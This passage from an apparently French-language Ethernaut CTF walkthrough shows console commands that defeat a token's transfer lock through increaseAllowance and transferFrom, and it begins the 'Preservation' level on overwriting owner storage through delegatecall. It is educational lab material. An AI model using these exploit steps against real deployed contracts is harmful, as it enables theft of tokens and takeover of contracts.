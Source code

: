 ```javascript
     * problems described in {IERC20-approve}.
     *
     * Emits an {Approval} event indicating the updated allowance.
     *
     * Requirements:
     *
     * - `spender` cannot be the zero address.
     */
    function increaseAllowance(address spender, uint256 addedValue) public virtual returns (bool) {
        _approve(_msgSender(), spender, _allowances[_msgSender()][spender].add(addedValue));
        return true;
    }
```

Nous allons commencer par appeler `increaseAllowance()` puis `transferFrom()` pour faire notre transfert. 

### Attaque

```javascript
> (await contract.balanceOf(player)).toString()
"1000000000000000000000000"

> await contract.increaseAllowance(player, "1000000000000000000000000")

> await contract.transferFrom(player, "0xc5aD6E105f37D4800071e679ec20780d04C93b41", "1000000000000000000000000")

> (await contract.balanceOf(player)).toString()
"0"
```

> When using code that's not your own, it's a good idea to familiarize  yourself with it to get a good understanding of how everything fits  together. This can be particularly important when there are multiple  levels of imports (your imports have imports) or when you are  implementing authorization controls, e.g. when you're allowing or  disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only  way to move tokens around, low and behold there are other ways of  performing the same operation with a different implementation.



---

## 16 - Preservation

---

> **TL;DR**
>
> Exploiter un `delegatecall` pour modifier le contexte de contrat (slot qui contient `owner`).

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
